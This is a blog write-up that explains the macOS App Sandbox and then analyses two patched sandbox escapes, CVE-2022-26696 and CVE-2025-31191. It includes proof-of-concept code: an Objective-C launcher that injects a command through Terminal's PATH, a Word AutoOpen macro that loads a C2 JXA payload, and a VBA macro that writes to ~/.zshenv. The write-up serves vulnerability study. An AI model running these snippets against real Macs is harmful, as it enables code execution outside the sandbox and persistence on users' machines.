

[macOS: Part0 - TCC Bypass](https://hackyboiz.github.io/2025/01/19/clalxk/MacOS_TCC-Bypass_en/)

[macOS: Part1 - SIP Bypass](https://hackyboiz.github.io/2025/05/11/clalxk/MacOS_SIP-Bypass_en/) 


macOS: Part2 - Sandbox Escape ← Now!

Hello~ I'm clalxk!

Today, following Part1, I studied Sandbox Escape.

From the concept of the macOS Sandbox to the analysis of a 1-day vulnerability (CVE-2025-31191), it's all here—let's learn together.. (><)

## 0. App

If you've used Windows or Linux, the concept of an `App` on macOS might feel unfamiliar. It’s unfamiliar, but not difficult b^_^b. Generally, when you run a single executable file (`.exe`, `a.out`), you think of the program starting immediately, loading libraries or config files from somewhere in the system as needed.

For example, on Windows, if you run `notepad++.exe`, that one file launches the process.

During that process, required `.dll` libraries are dynamically loaded from system folders or the installation path, and settings are stored externally in `.ini` files or the registry.

However! On macOS, this structure is slightly different.

On macOS, an `App` isn’t just a simple executable file but a **bundle** with a **directory structure** (**Bundle**)

Although it looks like a single app in Finder, in Terminal you’ll see that `.app` is a directory containing not only the executable but also all necessary **resources, config files, plugins, code signature data, etc.**

Think of macOS treating an app as a package that bundles **everything needed to run the app** rather than a single program file.

Let’s look at the built-in Calculator app as an example!


Inside the `Contents` folder, you’ll find.

- `MacOS/`: Folder containing the executable
- `Info.plist`: XML config file holding the app’s metadata
- `Resources/`: Icons, images, language packs, other resources
- `PlugIns/`: (Optional) Plugins
- `_CodeSignature/`: (Optional) Code signature info
- `version.plist`, `PkgInfo`: (Optional) Other details

`Info.plist` is an XML-format file that holds important metadata about the app.

It includes the path to the executable, the app name, the bundle ID, version, and more.

```xml
<key>CFBundleExecutable</key>
<string>Calculator</string>

<key>CFBundleIdentifier</key>
<string>com.apple.calculator</string>
```

Let's try running the app!

### **0.1 Launching an App**

Launching an app essentially means **creating a process** that runs the binary specified by the `CFBundleExecutable` key. But which parent process launches it?

** `CFBundleExecutable`: A key in the `Info.plist` of a macOS app bundle specifying the name of the binary to execute.*


The command `open -a Calculator` is the same as double-clicking the Calculator app.

I ran `ps` while Calculator was open:

`/System/Applications/Calculator.app/Contents/MacOS/Calculator` is running, PID 5012. Its parent process (PPID) is `1`!

On macOS, PID 1 is `/sbin/launchd`. This daemon manages all system and user agents on macOS—think of it like Windows' `services.exe` or Linux's `systemd`. It not only manages background services but also acts as the **parent for every GUI-launched app**.

When users double-click or use `open -a`, the app runs as a child of `launchd` (PID 1), making the process tree flat. On other OSes, you can trace which shell or terminal launched a program by following the PPID, but on macOS GUI launches, all apps appear as children of `launchd`.

Before macOS Ventura, you could run the executable directly without `open`. But if not launched within a proper `launchd` environment, macOS would SIGKILL the app to protect the App Sandbox and TCC.

```bash
$ /System/Applications/Calculator.app/Contents/MacOS/Calculator & 
$ ps -A -j | grep Calculator | grep -v grep
```

When run directly, the parent was the shell, not `launchd`.

For testing, I created a dummy `.app`:

```bash
mkdir -p ~/MyApp.app/Contents/MacOS
echo -e '#!/bin/bash\nsleep 10' > ~/MyApp.app/Contents/MacOS/MyApp
chmod +x ~/MyApp.app/Contents/MacOS/MyApp

~/MyApp.app/Contents/MacOS/MyApp &
ps -A -j | grep MyApp

open -a MyApp
ps -A -j | grep MyApp
```


As expected, direct invocation makes it a terminal child while `open -a` makes it a `launchd` child.

`launchd` also handles `LaunchAgents` and `LaunchDaemons` for background services, but we won't cover that today. To be continued…

The `.app` described so far is just one of many types of bundles.

macOS has various bundle types, as shown below. (This is not a complete list.)

- `.app` – An application bundle that contains all the elements that make up an app.
- `.framework` – A framework bundle that includes not only loadable code like `.dylib` but also resources, version information, etc. (The entire framework bundle can be loaded using `dlopen()`.)
- `.kext` – A kernel extension bundle that acts as an extension module loaded directly into the macOS kernel. For security reasons, Apple is gradually restricting their use in the latest versions of macOS.
- `.plugin` – Plugin bundles, which include extension modules loaded by the main application

As such, bundles are not only used to run apps, but also serve as core components that support functional expansion and modularized structures across macOS. 

If so, let's move on~

## 1. App Sandbox

We’ve seen that macOS apps are bundles. Now let's see how apps are executed and restricted by the system.

The key concept today is the **App Sandbox**!

Ideally, from a security standpoint, you’d never run untrusted code. But we install and run many apps, so macOS encloses each app in a **sandbox**, restricting it within a "box" it can’t escape.

Sandboxed apps are denied by default.

| Restriction | Description |
| --- | --- |
| File system | No access to all files, including home directory |
| Network | No internet or socket access |
| Microphone/Camera | No direct access (requires TCC approval) |
| Photo library | No access (requires separate permission) |
| System APIs | Blocked system calls, process control, etc. |
| Child processes | Can spawn, but children inherit the same sandbox limits |

To avoid breaking essential features, some entitlements can be granted.

For example, an image editor needs to open/save files chosen by the user. A sandboxed app needs explicit exceptions for this, defined in its `Entitlements`.

** `Entitlements`: Permissions declared at code signing time, listing allowed capabilities.*

### 1.1 What are Entitlements?

Entitlements are declared in an XML-format `.entitlements` file or set in Xcode under Signing & Capabilities.

| Entitlement Key | Description |
| --- | --- |
| `com.apple.security.network.client` | Allow network client access |
| `com.apple.security.files.user-selected.read-write` | Allow read/write to user-selected files |
| `com.apple.security.assets.pictures.read-write` | Allow photo library read/write |
| `com.apple.security.device.camera` | Allow camera access |

In other words, the app cannot do anything by default, but can only operate within the permissions granted by the user.

`Entitlements` are typically written in XML format as `.entitlements` files, and can be added visually in Xcode under the Target > Signing & Capabilities tab.

++  When using Sandbox, you must declare it as follows.

```xml

<key>com.apple.security.app-sandbox</key>
<true/>
```

This key must be declared for macOS to run the app in sandbox mode.

### 1.2 TCC

You’ve seen messages like:

> "@@@" Would Like to Modify Apps on your Mac.
> 

This prompt comes from macOS’s **TCC** (Transparency, Consent, and Control). When an app attempts to access sensitive data, TCC forces an explicit user consent step, preventing unauthorized access.

## 2. Sandbox Escape

We’ve explored how strict the App Sandbox is. Can we bypass it to escape the sandbox?

Of course it’s not easy—macOS enforces strict access controls. But vulnerabilities have existed. Let’s analyze known macOS sandbox escape cases.

### 2.1 CVE-2022-26696: Sandbox Escape via Terminal.app

CVE-2022-26696 was a vulnerability that allowed sandboxed apps to escape the sandbox by setting **specific environment variables** when running Terminal.app, causing Terminal to inherit that environment.

In Terminal’s code, `isRunningInInstallEnvironment()` checks the `__OSINSTALL_ENVIRONMENT` env var:

```bash
+(char)isRunningInInstallEnvironment {
    if (*(int8_t *)byte_10010617c == 0x1) {
        rax = *(int8_t *)byte_10010617b;
    } else {
        COND = getenv("__OSINSTALL_ENVIRONMENT") != 0x0;
        rax = COND_BYTE_SET(NE);
        *(int8_t *)byte_10010617b = COND ? 0x1 : 0x0;
        *(int8_t *)byte_10010617c = 0x1;
    }
    rax = sign_extend_64(rax);
    return rax;
}

```

This checks whether the environment variable `__OSINSTALL_ENVIRONMENT` is set internally, and if it is, Terminal determines that it is **running in the BaseSystem environment**.

** BaseSystem: Installation UI when booting from a macOS installation USB, macOS Recovery Mode, minimal system environment with BaseSystem.dmg mounted, etc.*

```bash
-(void *)init {
    var_30 = self;
    *(&var_30 + 0x8) = *0x1000f4790;
    rax = [[&var_30 super] init];
    r14 = rax;
    if (rax != 0x0) {
        if (*qword_100105e38 == 0x0) {
            *qword_100105e38 = r14;
        }
        rbx = [[[NSProcessInfo processInfo] environment] mutableCopy];
        if ([objc_opt_class(r14) **isRunningInInstallEnvironment**] == 0x0) {
            [rbx removeObjectForKey:@"HOME"];
            [rbx removeObjectForKey:@"USER"];
            [rbx removeObjectForKey:@"LOGNAME"];
            [rbx removeObjectForKey:@"PATH"];
            [rbx removeObjectForKey:@"SHELL"];
        }

```

Within the `init` function, if the value of isRunningInInstallEnvironment() is `NO`, Terminal is designed to delete key environment variables such as `HOME` and `PATH`. However, if this value is YES, the environment variables are not deleted and remain unchanged. Ultimately, by setting the single environment variable __OSINSTALL_ENVIRONMENT=1, Terminal.app will run without deleting the environment variables. This allows sandboxed apps to execute shell commands by running Terminal.

By exploiting this vulnerability, you can achieve the desired results by performing the following actions within the sandbox app!

1. Run Terminal.app with the `__OSINSTALL_ENVIRONMENT=1` environment variable
2. Insert malicious commands into the `PATH` environment variable → in the form of `$(malicious_command)`
3. Terminal accepts and executes the environment variables as is
4. Execute malicious commands by bypassing the sandboxed app

```bash
void sbxWithShellCommand(NSString *command) {
    FSRef appFSURL;
    NSString *path = @"/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal";
    OSStatus stat2 = FSPathMakeRef((const UInt8 *)[path UTF8String], &appFSURL, NULL);
    if (stat2 < 0) {
        NSLog(@"Something wrong: %d",stat2);
    }

    LSApplicationParameters appParam;
    appParam.version = 0;
    appParam.flags = kLSLaunchDefaults;
    appParam.application = &appFSURL;
    appParam.argv = NULL;

    // Pass the command to be executed as an environment variable.
    NSString *finalCommand = [NSString stringWithFormat:@"$(%@)", command];
    NSDictionary *envs = @{@"PATH":finalCommand, @"__OSINSTALL_ENVIRONMENT":@"1"};
    appParam.environment = (__bridge CFDictionaryRef)envs;
    appParam.asyncLaunchRefCon = NULL;
    appParam.initialEvent = NULL;

    CFArrayRef array = (__bridge CFArrayRef)@[];
    OSStatus stat = **LSOpenURLsWithRole**(array, kLSRolesAll, NULL, &appParam, NULL, 0);

    if (stat < 0) {
        NSLog(@"Something wrong: %d", stat);
    }
}

```

Apple's [**LaunchServices API**](https://developer.apple.com/documentation/coreservices/launch_services) `LSOpenURLsWithRole()` is used to run Terminal, passing the shell command as an environment variable.

Additionally, this vulnerability could also be exploited within Microsoft Word macros!

```bash
Sub AutoOpen()
MacScript ("do shell script ""open -b com.apple.terminal --env __OSINSTALL_ENVIRONMENT=1 --env PATH='$(/usr/bin/osascript -l JavaScript /path/.apfell.js)'"" ")
End Sub
```

You can load the Mythic **C2 JXA Payload** by including it in a macro in a Word document.

++ Apple has designated this vulnerability as `CVE-2022-26696` and modified Terminal so that it no longer trusts the `__OSINSTALL_ENVIRONMENT` environment variable.

I checked each function based on my terminal (v2.14).


It has been changed so that it not only filters environment variables, but also checks a wider range of security conditions and structurally initializes the internal state.

The structure that previously relied solely on `__OSINSTALL_ENVIRONMENT` has been removed, and security has been strengthened so that Terminal only operates in a normal launchd environment. Additionally, Launch Services has been modified to recognize whether the **XPC** client is in a sandboxed state.

[TTApplication init] code

```bash
TTApplication *__cdecl -[TTApplication init](TTApplication *self, SEL a2)
{
  TTApplication *v2; // rax
  TTApplication *v3; // rbx
  id v4; // rax
  id v5; // rax
  id v6; // r14
  void *v7; // rax
  id v8; // rax
  id v9; // rax
  id v10; // rax
  id v11; // rax
  struct objc_super v13; // [rsp+0h] [rbp-30h] BYREF

  v13.receiver = self;
  v13.cls = &OBJC_CLASS___TTApplication;
  v2 = (TTApplication *)objc_msgSendSuper2(&v13, "init");
  v3 = v2;
  if ( v2 )                                     // rax
  {
    if ( !qword_1000FFE38 )
      qword_1000FFE38 = v2;
    v4 = objc_msgSend(&OBJC_CLASS___NSProcessInfo, "processInfo");
    v5 = objc_msgSend(v4, "environment");
    v6 = objc_msgSend(v5, "mutableCopy");
    v7 = (void *)objc_opt_class(v3);
    if ( !(unsigned __int8)objc_msgSend(v7, "isRunningInInstallEnvironment") )
    {
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFD90);// "HOME"
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFDB0);// "USER"
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFDD0);// "LOGNAME"
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFDF0);// "PATH"
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFE10);// "SHELL"
      if ( (unsigned int)csr_check(2LL) )
        objc_msgSend(v6, "removeObjectForKey:", &off_1000CFE30);
    }
    objc_msgSend(v6, "removeObjectForKey:", &off_1000CFE50);
    objc_msgSend(v6, "removeObjectForKey:", &off_1000CFE70);
    v3->_initialEnvironment = (NSDictionary *)objc_msgSend(v6, "copy");
    objc_release(v6);
    objc_msgSend(v3, "setDelegate:", v3);
    v8 = objc_alloc(&OBJC_CLASS___NSMutableIndexSet);
    v3->_availableEquivalents = (NSMutableIndexSet *)objc_msgSend(v8, "initWithIndexesInRange:", 1LL, 9LL);
    v3->_windowEquivalents = (NSMutableDictionary *)objc_alloc_init(&OBJC_CLASS___NSMutableDictionary);
    v9 = objc_msgSend(&OBJC_CLASS___NSUserDefaults, "standardUserDefaults");
    v10 = objc_msgSend(v9, "objectForKey:", off_1000FF878);
    if ( v10 )
      objc_msgSend(v3, "setDefaultShell:", v10);
    objc_msgSend(v3, "addObserver:forKeyPath:options:context:", v3, &off_1000CFE90, 11LL, &unk_1000A4548);
    v11 = objc_msgSend(&OBJC_CLASS___NSNotificationCenter, "defaultCenter");
    objc_msgSend(
      v11,
      "addObserver:selector:name:object:",
      v3,
      "handleWindowKeyChange:",
      NSWindowDidBecomeKeyNotification,
      0LL);
    v3->_currentWorkspace = (TTWorkspace *)objc_alloc_init(&OBJC_CLASS___TTWorkspace);
    objc_msgSend(&OBJC_CLASS___NSColor, "setIgnoresAlpha:", 0LL);
    objc_msgSend(v3, "initLowSwapSpaceWatcher");
  }
  return v3;
}
```


---


### 2.2 CVE‑2025‑31191: Security‑Scoped Bookmarks based Sandbox Escape

CVE-2025-31191 is based on a structural flaw that allowed sandboxed apps on macOS to exploit **Security-Scoped Bookmarks** to access system resources without user approval.

In addition to CVE-2022-26696 discussed in Section 2.1, there were various other Launch Services-based vulnerabilities. Subsequently, Apple strengthened App Sandbox policies within Launch Services to prevent such vulnerabilities. XPC clients are now able to recognize whether they are in a sandboxed state, rendering past vulnerabilities such as **CVE-2022-26706**, **CVE-2021-30864**, and **CVE-2022-26696** invalid.

These changes have also affected the Microsoft Office for macOS environment. Office apps are now configured to strictly follow macOS sandbox policies, making it difficult to attempt initial penetration using macros as before. However, we focused our analysis on the **SSB (Security-Scoped Bookmark)** feature, which allows file access permissions to be stored like tokens, as it remains a potential threat.

> **Security-Scoped Bookmark?**

macOS restricts app file access permissions for security reasons, and external files cannot be accessed without the user's explicit approval. One of the representative features used for this purpose is **Security-Scoped Bookmark**.

This Bookmark allows users to store access permissions for specific files or directories like a token once they have granted access. Apps can then store this Bookmark and use it later to access files without requiring user approval again.

Two key VBA APIs related to this feature have been newly introduced in the Office environment for macOS.

- **AppleScriptTask**
    
    This API allows macros to execute predefined AppleScripts. However, these scripts must be located in the `~/Library/Application Scripts/[bundle ID]/` path, and since Office apps cannot access this path to create files, it was difficult to use macros for sandbox escape.
    
- **GrantAccessToMultipleFiles**
    
    This API prompts the user to select multiple files within the macro and grants access to those files outside the sandbox. It is particularly useful for large-scale tasks.
    

Among these, `AppleScriptTask` appeared to have no significant security issues, so we conducted a thorough analysis centered on the `GrantAccessToMultipleFiles` API.

> **SSB Abuse**

Using the `GrantAccessToMultipleFiles` API, users can access files outside the sandbox by manually selecting and approving files. However, we discovered that **the user's file access approval is retained even after rebooting**. In other words, this approval information is **permanently stored** somewhere, and if exploited, it allows access to files outside the sandbox without additional user approval. !!

Based on this, we were able to come up with the following scenario.

1. The user selects a file normally and grants access permissions.
2. These permissions are stored in the form of a Security-Scoped Bookmark.
3. A malicious macro exploits this bookmark to access specific files without any additional approval.
4. For example, manipulating an initial execution file such as `~/.zshenv` → enables command execution outside the sandbox.

> **SSB exploitation through macros**

Based on the above scenario, we conducted the following tests.

1. Open Excel or Word and open a new document.
2. Press the shortcut key `Alt + F11` → Open the VBA editor.
3. Select `Insert > Module` from the top menu.
4. Paste the code and execute it.
```bash
        Sub Poc_GrantAccess()
            Dim scptPath As String
            Dim fileAccessGranted As Boolean
            Dim filePermissionCandidates
            Dim payload As String
        
            ' Set the payload
            payload = "echo pwn"
        
            ' Grant file permissions
            scptPath = "/Users/" & Environ("USER") & "/.zshenv"
            filePermissionCandidates = Array(scptPath)
            fileAccessGranted = GrantAccessToMultipleFiles(filePermissionCandidates)
        
            ' Create an Application Script
            Open scptPath For Output As #1
            Print #1, payload
            Close #1
        End Sub
        
```    
        
        


If an SSB created based on user approval information is exploited, subsequent accesses may bypass the protection of the sandbox policy.



echo pwn executed successfully.

> **SSB Storage Location and Structure Analysis**

After checking where this bookmark is stored, we found that the data storing the user's choice (file access approval) was stored in a PLIST file inside the Containers directory.


The `Containers` directory is a special location that is not subject to App Sandbox restrictions, so even sandboxed apps can **freely access** files in this directory. This means that if a malicious app can manipulate this PLIST file to artificially insert SSB, it can steal arbitrary file access permissions without separate user approval!

However... this PLIST file is not a simple text file but is structured as a **signed binary format**. Therefore, simply overwriting values or adding entries is not easy... 

> **ScopedBookmarkAgent Analysis**

To gain a deeper understanding of how this works, we reverse engineered the relevant macOS modules and analyzed their structure.

By default, sandboxed apps must obtain file access permission from the user via an Open dialog to access external files. This Open dialog is handled by a sandbox-external service named `com.apple.appkit.xpc.openAndSavePanelService.xpc`.

When the user selects a file, this service transmits the access permissions for the selected file to the app in the form of a sandbox extension. This extension is created by the kernel and is a token signed with `HMAC-SHA256`, containing the actual file path, permission information (such as `com.apple.app-sandbox.read-write`), file metadata, and more. Apps that receive this extension can access the file through the `libsystem_sandbox.dylib` sub-API.

However, there was a limitation that this extension token was **invalidated upon each reboot**.

To solve this, Apple introduced a new non-sandbox process called **ScopedBookmarkAgent**. This agent performs the following two roles.

1. Verify the received sandbox extension and convert it into a Bookmark object that can be stored long-term.
2. Generate and deliver a new sandbox extension token based on the stored Bookmark data.

For example, apps like Microsoft Office can use SSB in the following way!

- User approves file access → bookmark stored in `securebookmarks.plist`
- Subsequent access to the same file → bookmark via ScopedBookmarkAgent → new extension token generated

This bookmark object is also signed with HMAC-SHA256, and the key used is calculated as follows.

```
cryptoKey = HMAC-SHA256(secret, "[bundle-id]")
```

The `secret` used here is stored in the `com.apple.scopedbookmarksagent.xpc` item in **macOS Keychain**, making it very difficult for attackers to arbitrarily sign or manipulate bookmarks. Ultimately, in order to forge bookmarks for sandbox escape, attackers must steal the **ScopedBookmarkAgent's** signing key or be able to insert valid bookmarks indirectly. It's a bit complicated, isn't it?

> **Keychain ACL bypass**


On macOS, **Keychain** is a space for securely storing passwords and certificates. It can be considered similar to Windows Credential Manager.
An important feature of Keychain is that it has an **Access Control List (ACL) that specifies which processes can access each item**.

The Keychain item that caught my attention was `com.apple.scopedbookmarksagent.xpc`, and its ACL was set to allow access only to **ScopedBookmarkAgent**.

However…!

I discovered that this ACL only controls **‘read’ permissions**.


In other words, it was possible to delete existing items and register **new items created** by attackers with the same names!

Attackers could even set **ACL**s for new items themselves and configure them so that ScopedBookmarkAgent could access them freely.


This could be verified using the command.

As a result, if an attacker creates a new entry with a fixed secret value, ScopedBookmarkAgent will accept the key without suspicion and use it for signature verification.

Based on the above, an attacker could exploit the ACL structure of the keychain and the signature key derivation structure to **manipulate and sign arbitrary SSBs**, thereby **gaining a sandbox escape path**.

This vulnerability could affect all macOS sandboxed apps that use SSBs and was particularly dangerous because it could be exploited as a generic macOS Sandbox Escape technique not limited to a single app. 


In this article, I studied Sandbox Escape! It was fun…!!!

I’ll study something interesting again next time~ >_o


## Reference

https://support.apple.com/en-us/122375

https://www.microsoft.com/en-us/security/blog/2025/05/01/analyzing-cve-2025-31191-a-macos-security-scoped-bookmarks-based-sandbox-escape/

https://www.microsoft.com/en-us/security/blog/2022/07/13/uncovering-a-macos-app-sandbox-escape-vulnerability-a-deep-dive-into-cve-2022-26706/

https://objectivebythesea.org/v4/talks/OBTS_v4_rWaisberg.pdf

https://github.com/yo-yo-yo-jbo/macos_app_structure

https://wojciechregula.blog/post/macos-sandbox-escape-via-terminal/